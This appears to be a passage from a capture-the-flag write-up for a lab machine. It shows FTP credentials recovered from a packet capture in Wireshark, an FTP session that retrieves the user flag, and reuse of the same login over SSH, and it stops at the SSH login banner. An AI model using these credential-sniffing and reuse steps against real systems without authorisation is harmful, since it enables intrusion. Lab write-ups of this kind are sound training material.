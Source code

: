 
<p> Examination of the pcap file with Wireshark exposes some ftp credentials.</p>
<img src="/images/cap/cap_wireshark_username.webp" alt="ftp Username Wireshark" class="postImage">
<img src="/images/cap/cap_wireshark_password.webp" alt ="ftp Password Wireshark" class="postImage">

<p>Logging in to the ftp server with those credentials, the user flag was obtained</p>
<pre>
└─$ ftp 10.10.10.245                                               
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||19989|)
150 Here comes the directory listing.
-rwxrwxr-x    1 1001     1001       956174 Aug 08 19:43 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Aug 15 09:38 snap
-r--------    1 1001     1001           33 Aug 15 09:33 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||50720|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |********************************************************************************************************************************************|    33        1.25 MiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (3.54 KiB/s)
ftp> 
</pre>

<p>Let's try the same credentials to login using ssh. Bingo, we have now user access to the machine</p>
<pre>
┌──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245
nathan@10.10.10.245's password: 
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)

